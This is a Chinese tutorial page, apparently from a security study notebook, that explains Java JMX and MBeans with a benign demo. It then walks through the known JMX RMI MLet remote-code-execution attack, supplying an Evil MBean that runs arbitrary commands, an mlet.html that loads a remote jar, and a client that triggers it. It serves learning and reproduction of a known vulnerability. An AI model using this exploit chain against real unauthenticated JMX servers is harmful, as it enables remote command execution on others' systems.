



# 7 JMX

`JMX`，全称`Java Management Extensions`，用于管理和监控`java`应用程序。

举个例子，我们可以通过`jconsole`监控应用程序的堆内存使用量、线程数、类数，查看某些配置信息，甚至可以动态地修改配置。另外，有时还可以利用`JMX`来进行测试。

基础架构如下：


JMX把所有被管理的资源都称为 MBean（Managed Bean），这些MBean全部由MBeanServer管理，如果要访问MBean，可以通过MBeanServer对外提供的访问接口，例如通过RMI或HTTP访问。

通俗的讲，JMX是一个服务器，它能让客户端远程访问该服务器上运行的java程序的api，并且可以对该程序通过相应的函数进行增删改查。
一般运维人员常部署zabbix、cacti和nagios对tomcat、weblogic等服务器进行监控，通常通过JMX访问Tomcat、weblogic的方式实现的，通过JVM的queryMBeans方法查询获取具体的Mbean（Thread、JVM、JDBC），根据bean的属性值判断运行状态。

## JMX demo

!!! tips
    MBean 接口的命名规范："xyzMBean"，其实现类则需要名为: "xyz"。

=== "HelloMbean"

    ```java
    package cc.jmx;

    public interface HelloMBean {
        public String getName();
        public void setName(String newName);
        public String sayHello();
    }
    ```

=== "Hello"

    ```java
    package cc.jmx;

    public class Hello implements HelloMBean{
        private String name = "colemak";

        // getter/setter for the "name" attribute
        public String getName() { return this.name; }
        public void setName(String newName) { this.name = newName; }

        // Methods
        public String sayHello() { return "hello: " + name; }
    }
    ```

=== "JMXServer"

    ```java
    package cc.jmx;

    import javax.management.*;
    import javax.management.remote.JMXConnectorServer;
    import javax.management.remote.JMXConnectorServerFactory;
    import javax.management.remote.JMXServiceURL;
    import java.lang.management.ManagementFactory;
    import java.rmi.registry.LocateRegistry;

    /**
     * Hello world!
     *
     */
    public class jmxserver
    {
        public static void main( String[] args ) throws Exception {

            MBeanServer server = ManagementFactory.getPlatformMBeanServer();
            try {
                // 注册一个MBean
                server.registerMBean(new Hello(), new ObjectName("domain1:key1=val1"));
            }
            catch (InstanceAlreadyExistsException | MBeanRegistrationException | NotCompliantMBeanException | MalformedObjectNameException e) {
                e.printStackTrace();
            }
            // 启用端口用于JMX连接
            LocateRegistry.createRegistry(9999);
            JMXConnectorServer jcs = JMXConnectorServerFactory.newJMXConnectorServer(
                    new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:9999/jmxrmi"),
                    null,
                    server);
            jcs.start();
        }
    }
    ```

启动`JMXServer`，然后使用`jconsole`连接`127.0.0.1:9999`。

{loading=lazy}

## JMX RMI MLet

!!! tips "利用条件"

    - 允许远程访问，没有开启认证 (com.sun.management.jmxremote.authenticate=false)
    - 能够远程注册 MBean (javax.management.loading.MLet)


攻击者可以通过Mlet的getMbeanFromUrl方法进行远程加载恶意的jar包注册 MBean，使 JMX 服务器调用其中的恶意方法实现攻击。

首先将以下恶意类打包为jar文件

=== "EvilMBean.java"

    ```java
    package cc.jmx;

    public interface EvilMBean {
        public void execmd(String cmd) throws Exception;
    }
    ```

=== "Evil.java"

    ```java
    package cc.jmx;

    public class Evil implements EvilMBean {
        public void execmd(String cmd) throws Exception{
            Process process = Runtime.getRuntime().exec(cmd);
        }
    }
    ```

在相同目录下编写 `mlet.html`

```html
<html>
    <mlet code="cc.jmx.Evil" archive="comp.jar" name="MLetCompromise:name=evil,id=1" codebase="http://127.0.0.1:10001">
    </mlet>
</html>
```

然后启动一个 HTTP 服务，以便 JMX server 访问加载恶意MBean

编写客户端远程向服务器注册MLet，加载运行恶意MBean

```java
package cc.jmx;

import java.lang.management.ManagementFactory;
import java.net.InetAddress;
import java.util.Arrays;
import java.util.HashSet;
import java.util.Iterator;
import java.util.Set;
import javax.management.*;
import javax.management.remote.JMXConnector;
import javax.management.remote.JMXConnectorFactory;
import javax.management.remote.JMXServiceURL;

public class MLetMBeanClient {

    public static void main(String[] args) throws Exception {
        // 连接JMX Server
        JMXServiceURL url = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://127.0.0.1:9999/jmxrmi");
        JMXConnector jmxConnector = JMXConnectorFactory.connect(url);
        MBeanServerConnection mBeanServerConnection = jmxConnector.getMBeanServerConnection();
        ObjectInstance evilBean = null;
        ObjectInstance evil = null;
        Object expResult;
        try{
            // 注册MLet
            evil = mBeanServerConnection.createMBean("javax.management.loading.MLet",null);

            // 从远程加载恶意MBean
            Object loadEvilBean = mBeanServerConnection.invoke(evil.getObjectName(),"getMBeansFromURL",new Object[]{"http://127.0.0.1:10001/mlet.html"},new String[]{String.class.getName()});
            HashSet hashSet = ((HashSet)loadEvilBean);
            Iterator iterator = hashSet.iterator();
            Object theObject = iterator.next();

            evilBean = ((ObjectInstance)theObject);
            System.out.println(evilBean.getObjectName());

            // 调用恶意MBean的execmd方法
            expResult = mBeanServerConnection.invoke(evilBean.getObjectName(),"execmd",new String[]{"calc"},new String[]{String.class.getName()});
        } catch (Exception e) {
            // 若已注册，则直接调用
            ObjectName objectName = new ObjectName("MLetCompromise:name=evil,id=1");
            expResult = mBeanServerConnection.invoke(objectName,"execmd",new String[]{"calc"},new String[]{String.class.getName()});
        }
        System.out.println(expResult);
    }
}
```

测试结果如下
{loading=lazy}

## 参考资料

- [Jmx Rmi Rce 漏洞利用复现&分析](https://www.cnblogs.com/0x28/p/15685164.html){target=_blank}
- [MBean使用及JMX漏洞复现](https://www.cnblogs.com/muphy/p/13971984.html){target=_blank}